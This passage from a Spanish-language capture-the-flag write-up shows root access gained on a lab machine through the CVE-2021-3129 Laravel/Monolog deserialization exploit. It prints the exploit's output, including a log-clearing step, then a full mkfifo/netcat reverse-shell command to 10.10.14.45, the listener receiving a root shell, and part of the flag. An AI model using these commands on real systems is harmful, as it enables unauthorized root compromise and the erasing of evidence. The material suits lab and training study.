 ```bash
remote: Compressing objects: 100% (673/673), done.
remote: Total 2822 (delta 476), reused 987 (delta 338), pack-reused 1658
Recibiendo objetos: 100% (2822/2822), 416.99 KiB | 1.65 MiB/s, listo.
Resolviendo deltas: 100% (1118/1118), listo.
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

uid=0(root) gid=0(root) groups=0(root)

[i] Trying to clear logs
[+] Logs cleared
```
¡Funciona, y además ejecutamos comandos como root!

Probemos a ver si podemos entablar una reverse shell. Nos ponemos en escucha con netcat y ejecutamos el exploit.

```bash
┌─[z3r0byte@z3r0byte]─[~/Descargas/CVE-2021-3129_exploit]
└──╼ $ python3 exploit.py http://localhost:8000 Monolog/RCE1 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.45 4444 >/tmp/f'
[i] Trying to clear logs
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR
```
¡Recibimos una shell como root!

```bash
┌─[z3r0byte@z3r0byte]─[~/Descargas/CVE-2021-3129_exploit]
└──╼ $ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.11.105 37910
/bin/sh: 0: can't access tty; job control turned off
#
```
Ya habiendo escalado privilegios, podremos ver la flag `root.txt` en `/root/root.txt`:

```
# head --bytes 11 /root/root.txt | xargs
64a456cedd3
```
---









